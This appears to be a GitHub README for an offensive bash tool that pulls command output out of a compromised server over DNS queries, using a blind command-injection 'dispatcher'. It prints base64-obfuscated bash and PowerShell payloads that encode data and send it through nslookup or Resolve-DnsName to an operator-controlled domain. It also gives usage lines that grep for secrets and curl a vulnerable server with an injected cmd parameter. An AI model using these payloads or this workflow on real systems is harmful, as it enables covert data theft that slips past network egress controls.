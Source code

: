 # DNS Data Exfiltration

A bash script that automates the exfiltration of data over dns in case we have a blind command execution on a server where all outbound connections except DNS are blocked. The script currently supports bash and powershell and is compatible with exec style command execution (e.g. java.lang.Runtime.exec).

For its operations, the script takes as input the command we want to run on the target server and transforms it according to the target shell in order to allow its output to be exfiltrated over DNS. After the command is transformed, it's fed to the "dispatcher". The dispatcher is a program provided by the user and is responsible for taking as input a command and have it executed on the target server by any means necessary (e.g. exploiting a vulnerability). After the command is executed on the target server, it is expected to trigger DNS requests to our DNS name server containing chunks of our data. The script listens for those requests until the output of the user provided command is fully exfiltrated.

Indicatively, below are the transformations performed to exfiltrate the output length of the command `ls`

bash variant 1:
```bash
bash -c {echo,IG5zbG9va3VwIGAobHMpfGJhc2U2NCAtdzB8d2MgLWNgLmxlbi4xNjAzMDMwNTYwLndoYXRldi5lcgo=}|{base64,-d}|bash
```
bash variant 2:
```bash
bash -c $@|base64${IFS}-d|bash . echo IG5zbG9va3VwIGAobHMpfGJhc2U2NCAtdzB8d2MgLWNgLmxlbi4xNjAzMDMwODYwLndoYXRldi5lcgo=
```

powershell:
```powershell
powershell -enc UgBlAHMAbwBsAHYAZQAtAEQAbgBzAE4AYQBtAGUAIAAkACgAIgB7ADAAfQAuAHsAMQB9AC4AewAyAH0AIgAgAC0AZgAgACgAWwBDAG8AbgB2AGUAcgB0AF0AOgA6AFQAbwBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAoAGwAcwApACkAKQAuAGwAZQBuAGcAdABoACkALAAiAGwAZQBuACIALAAiADEANgAwADMAMAAzADAANAA4ADgALgB3AGgAYQB0AGUAdgAuAGUAcgAiACkACgA=
```

## Usage
1. Local testing for bash:
```bash
./dns_data_exfiltration.sh -h whatev.er -d "dig @0 +tries=5" -x dispatcher.sh -c 'ls -lha|grep secret' -- stdbuf -oL tcpdump --immediate -l -i any udp port 53
```

Contents of dispatcher.sh:
> $@

2. Local testing for powershell (requires WSL2 for tcpdump):
```bash
./dns_data_exfiltration.sh -w -h whatev.er -d "Resolve-DnsName -Server wsl2_IP -Name" -x dispatcher.sh -c 'gci | % {$_.Name}' -- stdbuf -oL tcpdump --immediate -l -i any udp port 53
```

Contents of dispatcher.sh:
> /mnt/c/Windows/System32/WindowsPowerShell/v1.0/powershell.exe -c "$1"

3. powershell example where we ssh into our NS to get the incoming DNS requests.
```bash
./dns_data_exfiltration.sh -w -h yourdns.ns -d "Resolve-DnsName" -x dispatcher.sh -c 'gci | % {$_.Name}' -- stdbuf -oL ssh -i key user@HOST 'sudo tcpdump --immediate -l udp port 53
```

Contents of dispatcher.sh
> curl https://vulnerable_server --data-urlencode "cmd=\${1}"

4. More information on the options
```bash
dns_data_exfiltration.sh --help
```

### Comments
Currently the provided command gets executed multiple times on the server until all of its output is extracted. This behavior may cause problems in case that command is not idempotent (functionality or output-wise, e.g. process listing) or is time/resource intensive. 
A workaround to avoid running into issues for the aforementioned cases is to first store the command output into a file (e.g. /tmp/file) and then read that file.

### Todos
 - Concurrency in the data exfiltration loop
